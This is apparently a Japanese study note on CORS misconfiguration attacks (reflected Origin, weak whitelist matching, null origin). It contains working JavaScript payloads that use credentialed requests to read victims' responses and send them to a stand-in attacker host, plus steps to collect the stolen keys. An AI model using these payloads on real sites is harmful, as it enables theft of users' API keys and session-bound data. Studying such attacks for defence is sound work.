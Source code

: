 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```html
<html>
	<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); /** ←ターゲットサーバのURLとAPIキーなどが生成されている箇所を入力。 **/
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	}; // ← APIを受け取る先を指定する。
	</script>
</html>
```

---
## 2. Originヘッダーの解析エラー
- 別ドメインのアクセスを許可する設定として、ホワイトリストを使用することで制限を掛けることができる。
- 指定されたオリジンがホワイトリストにある場合、`Access-Control-Allow-Origin`ヘッダーに反映され、アクセスが許可される。
↓リクエスト
```
	GET /data HTTP/1.1
	Host: normal-website.com
	...
	Origin: https://innocent-website.com
```
↓レスポンス
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- CORSオリジンホワイトリストの実装では、ミスが起こる場合がある。
	- 例：
		- すべてのサブドメインを許可している。(将来的に取得するであろうドメインも含めて)
		- 他組織のドメインを許可している場合
			- これは正規表現で実装されていることが多くミスが起きやすい。
- **攻撃の例**
	- アプリケーションが次の文字で終わるすべてのドメインへのアクセスを許可する。
		```
		normal-website.com
		```
	- 上記に対して、攻撃者は以下のドメインでアクセスすることが可能となる。
		```
		hackersnormal-website.com
		もしくは
		normal-website.com.evil-user.net
		```

---
## 3. ホワイトリストに登録されたnullオリジン値
- Originヘッダーの使用では、null値がサポートされている。
- 以下の特殊な状況において、Originヘッダーでnull値を送信する場合がある。
	- クロスオリジンリダイレクト
	- シリアル化されたデータからのリクエスト
	- `file`プロトコルを使用してリクエストする。
	- サウンドボックス化されたクロスオリジンリクエスト

- ローカル開発をサポートするためにnullオリジンをホワイトリストに登録する場合がある。
	- ローカル環境のが合い`file://home/kali/.../index.html`となるので、CORSが存在しない。その場合に`null`を使用する。(オリジンは、「プロトコル＋ドメイン＋ポート」の組み合わせで決まる識別子である。)
	↓リクエスト
	```
	GET /sensitive-victim-data
	Host: vulnerable-website.com
	Origin: null
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: null
	Access-Control-Allow-Credentials: true
	```
	- 上記の様にnullが許可されていた場合クロスオリジンリクエストを生成することができる。
	```html
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	location='malicious-website.com/log?key='+this.responseText;
	};
	</script>"></iframe>
	```
---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性

1. リクエストヘッダーに`Origin: http://hoge.com/`を追加して、`Access-Control-Allow-Origin:`と`Access-Control-Allow-Credentials: true`がレスポンスにあるかを確認。
	![[Pasted image 20251004184839.png]]
2. XSSなどと組み合わせて、被害者が自分が仕込んだOriginヘッダーを含んだリクエストを送信するように仕向ける。
	- 例：
3. `python -m http.server`を起動しリッスン、APIキーを受け取る。
---
